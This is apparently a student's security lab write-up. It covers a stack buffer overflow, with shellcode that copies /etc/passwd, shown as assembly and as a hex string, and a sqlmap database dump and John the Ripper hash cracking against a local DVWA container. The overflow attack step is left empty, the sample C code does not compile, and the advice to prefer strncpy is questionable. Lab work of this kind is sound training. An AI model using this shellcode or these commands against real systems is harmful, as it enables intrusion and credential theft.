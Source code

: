 # Lab #1,22110058, Luong Minh Nhat, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**:
## 1. Complie asm program and C program to execuatable

Complie asm program
``` 
    nasm -g -f elf shell.asm 
    ld -m elf_i386 -o shell shell.o
```

![](./imgs/task1_1.png)

Complie C program
``` 
    gcc -g vulnerable.c -o vulnerable.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
![](./imgs/task1_2.png)
## 2. Prepairing for attacking
Get shell code from complied asm program
```
    for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
![](./imgs/task1_3.png) 

<br>

The value that we got
```
\x31\xc0\xb0\x05\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x5c\x24\x01\xcd\x80\x89\xc3\xb0\x03\x89\xe7\x89\xf9\x66\x6a\xff\x5a\xcd\x80\x89\xc6\x6a\x05\x58\x31\xc9\x51\x68\x66\x69\x6c\x65\x68\x2f\x6f\x75\x74\x68\x2f\x74\x6d\x70\x89\xe3\xb1\x42\x66\x68\xa4\x01\x5a\xcd\x80\x89\xc3\x6a\x04\x58\x89\xf9\x89\xf2\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xb3\x05\xcd\x80
```
78 bytes long

Use gdb to find redundant_code function address:
``` 
    gdb vulnerable -q
    disas redundant_code
```
![](./imgs/task1_4.png)

## 3. Stack frame
stack frame for main fucntion <br>
![](./imgs/task1_5.png)
## 4. Attack

**Conclusion**: in main fucntion use unsafe function `strcpy`, that lead to attack buffer overflow for attacker inject code, to prevent it, we can use safe function like `strncpy`

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 


Set up
```
docker pull vulnerables/web-dvwa
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Open your browser and navigate to http://localhost. You should see the DVWA login page. <br>
![](./imgs/task2_1.png)

Login with the default credentials: <br>

Username: admin <br>
Password: password <br>
![](./imgs/task2_2.png)

**Question 1**: Use sqlmap to get information about all available databases <br>
**Answer 1**:
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit" --dbs

```
![](./imgs/task2_3.png) <br>
**Question 2**: Use sqlmap to get tables, users information <br>
**Answer 2**: <br>
get tables <br>
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa --tables
```
![](./imgs/task2_4.png)
get users <br>
```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" -D dvwa --dump

```
![](./imgs/task2_5.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit <br>
**Answer 3**: <br>
```
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt

```
